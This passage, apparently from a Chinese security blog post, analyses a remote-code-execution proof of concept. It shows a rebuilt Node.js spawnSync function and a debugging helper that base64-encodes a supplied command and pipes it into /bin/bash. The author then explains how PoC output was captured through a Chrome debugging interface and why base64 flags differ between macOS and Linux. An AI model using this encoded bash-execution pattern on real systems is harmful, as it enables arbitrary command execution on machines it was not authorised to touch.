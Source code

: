 ```
writable: !0
        }, {
type: 'pipe',
readable: !1,
writable: !0
        }], a.input) {
var g = a.stdio[0] = util._extend({}, a.stdio[0]);
        g.input = a.input;
    }
for (c = 0; c < a.stdio.length; c++) {
var e = a.stdio[c] && a.stdio[c].input;
if (e != null) {
var f = a.stdio[c] = util._extend({}, a.stdio[c]);
            isUint8Array(e) ? f.input = e : f.input = Buffer.from(e, a.encoding);
        }
    }
var b = spawn_sync.spawn(a);
if (b.output && a.encoding && a.encoding !== 'buffer')
for (c = 0; c < b.output.length; c++) {
if (!b.output[c]) continue;
            b.output[c] = b.output[c].toString(a.encoding);
        }
return b.stdout = b.output && b.output[1], b.stderr = b.output && b.output[2], b.error && (b.error = b.error + 'spawnSync ' + d.file, b.error.path = d.file, b.error.spawnargs = d.args.slice(1)), b;
}

// 加的辅助调试内容
function base64(data) {
return Buffer.from(data).toString('base64')
}
const COMMAND = process.argv[2]
const COMMAND_B64 = base64(COMMAND)

//id=4
spawnSync('/bin/bash', ['-c', `echo ${COMMAND_B64} | base64 -d | /bin/bash`])
```  
  
id为2和3的表达式中定义了命令执行函数spawnSync  
，其中处理了诸如环境变量，输入输出这些细节。id为4的表达式中调用spawnSync来执行终端中传入的命令。  
  
可以看到spawnSync函数返回了执行结果的stdout以及stderr，于是我修改了poc，把执行结果放入一个变量中，通过前面的文档可以知道，这种远程执行是有”副作用“的，所以在Chrome中的调试界面应该能打印这个变量，就可以看到报错信息。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb7ELIvHVBPp1r47Sic1ib5FhqicYUzDq6yHDHtf2cRPPeqS2mxX7uy8icmibytw5rXQccN5SNTopqicbChQ/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb7ELIvHVBPp1r47Sic1ib5FhqDzCFibTiaibz7cjJbFMy4NGYsOwLKCB8LXNoV0g83FbHB9joyTZWO3ZOA/640?wx_fmt=png "")  
  
原来是mac上base64工具的参数和linux上的不太一样，🤦‍♀️。  
```
$ base64 --helpUsage:    base64 [-hvD] [-b num] [-i in_file] [-o out_file]  -h, --help     display this message  -D, --decode   decodes input  -b, --break    break encoded string into num character lines  -i, --input    input file (default: "-" for stdin)  -o, --output   output file (default: "-" for stdout)root@kali:~# base64 --helpUsage: base64 [OPTION]... [FILE]Base64 encode or decode FILE, or standard input, to standard output.With no FILE, or when FILE is -, read standard input.Mandatory arguments to long options are mandatory for short options too.  -d, --decode          decode data  ........
```  
  